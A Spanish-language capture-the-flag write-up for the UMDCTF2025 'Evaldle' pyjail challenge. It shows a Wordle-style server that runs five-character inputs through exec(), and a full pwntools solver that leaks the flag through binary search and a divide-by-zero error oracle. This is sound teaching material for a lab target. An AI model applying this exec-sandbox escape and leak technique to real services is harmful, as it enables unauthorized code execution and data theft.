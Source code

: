 ```yaml
---
title: Evaldle - UMDCTF2025
author: Kesero
description: Reto basado en escapar de una pyjail para leer la flag.
date: 2025-04-27 10:00:00 +0000
categories: [Writeups Competiciones Internacionales, Miscelánea]
tags: [Miscelánea, pyjail]
pin: false
math: true
mermaid: true
image:
  path: https://github.com/k3sero/Blog_Content/blob/main/Competiciones_Internacionales_Writeups/2025/UMDCTF2025/Misc/evaldle/img/promp.png?raw=true
  lqip: 
  alt: 
comments: true
---
```


Autor del reto: `aparker`

Dificultad: <font color=orange>Medio</font>

## Enunciado

"The 2021 game of the year, now in pyjail form."

## Archivos

Este reto nos da el siguiente archivo.

- `nc challs.umdctf.io 31601` : Conexión por netcat al servidor
- `evaldle.py` : Contiene la lógica del servidor.

Archivos utilizados [aquí](https://github.com/k3sero/Blog_Content/tree/main/Competiciones_Internacionales_Writeups/2025/UMDCTF2025/Misc/evaldle).


## Analizando el reto

En `evaldle.py` encontramos el siguiente código.

```py
#!/usr/local/bin/python
f = open('flag.txt').read()

target = 'SIGMA'

while True:
    guess = input("Guess: ")
    if len(guess) != 5:
        print("Invalid guess.")
        continue
    for j in range(5):
        if target[j] == guess[j]:
            print('🟩', end='')
        elif guess[j] in target[j]:
            print('🟨', end='')
        else:
            print('⬛', end='')
    print('')
    try:
        exec(guess)
        print('🟩🟩🟩🟩🟩')
    except:
        print("🟥🟥🟥🟥🟥")
```

En resumidas cuentas, este código implementa un juego tipo Wordle que compara adivinanzas con la palabra secreta `SIGMA` dando pistas con emojis. Posteriormente, ejecuta el input introducido como código en Python en la función `exec()`. Además podemos observar que tiene un bug en la lógica de pistas, ya que `target[j]` es una letra y no una colección, por eso solo se evalúa como verdadera si ambas letras son iguales (cubierto por la primera condición)

Hay un factor muy importante y es que el usuario está limitado al input a introducir, ya que este debe de ser de 5 caracteres para que se ejecute la función `exec()`, en caso contrario no se ejecutará.

## Solver

La solución de este reto viene dada por la explotación de la función `exec(guess)`
Además, podemos ver que a simple vista el contenido de `flag.txt` se encuentra embebido en la variable `f`

Como el código ejecuta cualquier input del usuario gracias al `exec()`, esto nos permite ejecutar código en el contexto del programa. Para ello, tendremos que reconstruir la bandera carácter por carácter sin adivinarla manualmente, usando una técnica de búsqueda binaria sobre un conjuto de caracteres posibles llamados `alpha`

Para ello, en cada intento tenemos que construir una string parcial y compararlo con la flag y en base si la flag es "menor" o "mayor" al string actual, el script provocará errores (como dividir entre False) además de observar si el programa responde con error (🟥🟥🟥🟥🟥) o éxito (🟩🟩🟩🟩🟩).

La clave de este proceso será el repetir este proceso hasta descubrir toda la bandera.

El script utilizado es el siguiente:

```py
from pwn import *
import string

alpha = sorted(string.ascii_letters + string.digits + '{}_')

with remote("challs.umdctf.io", 31601) as p:
    def guess(x):
        assert len(x) <= 5
        p.sendlineafter('Guess: ', x.ljust(5,'#').encode())
        p.readline()
        print(x.ljust(5,'#'))
        return p.readline() == b'\xf0\x9f\x9f\xa9'*5+b'\n'

    known = ''
    while not known.endswith('}'):
        low = 0
        high = len(alpha) - 1

        while low < high:
            mid = (low + high + 1) // 2
            guess("a=''")

            for c in known + alpha[mid]:
                guess(f"b='{c}'")
                guess("a+=b")

            guess("d=f<a")

            if guess("1/d"):
                high = mid - 1
            else:
                low = mid

        known += alpha[high]
        print(known)
```

Antes que nada, vamos a explicar paso por paso cada parte del código.

1. Lo más importante es entender la explotación del propio `exec()`

Para ello, sabemos que `exec(guess)` va a ejecutar todo lo que escribamos como input (y tenga 5 caracteres). Por ejemplo, si ponemos `1+1`, el programa ejecutará `exec(1+1)`. Si pudieramos poner `exec(print(f))`, el programa nos devovlería la flag pero en este caso no aplica ya que input tiene más de 5 caracteres.

2. Nuestro principal objetivo es leer `f` que contiene la bandera, así que lo que tenemos que hacer es reconstruir la bandera carácter por carácter, comprobando realizando comprobaciones de si cierta letra está antes o después que otra en orden alfabético.

En python podemos comparar strings de la siguiente forma.

```py
"abc" < "acd"  # True
```
Y posteriormente podemos hacer esto con las variables.
```py
if f < a:
    ...
```
Por lo tanto, podemos construir una variable `a` con algo como `UMDCTF{` y realizar la comparación anterior: " `f` es menor que `UMDCTF{`"?

Dependiendo de la respuesta que nos dé, podemos saber cual es el siguiente carácter correcto.

4. Tenemos que detectar la respuesta con errores, para ello sabemos que si: 

```py
d = f < a
1 / d
```
Si `d = True`, entonces `1 / d` = `1 / True` = `1 / 1` = Válido, no lanza error
Si `d = False`, entonces `1 / d` = `1 / False` = `1 / 0` = No válido, lanza error

Además, como el juego muestra 🟩🟩🟩🟩🟩 cuando no hay error, y 🟥🟥🟥🟥🟥 cuando sí hay error, podemos saber si `f < a`.

5. Por último, tenemos que relizar la operatoria anterior para todo el rango de caracteres y mediante un algoritmo de búsqueda eficiente, para ello utilizamos la `binary search` para encontrar el caracter correcto.

### P.D

Script original de `clam`, es muy potente para futuros scripts basados en restricciones de caracteres.

## Flag

`UMDCTF{that_took_a_lot_more}`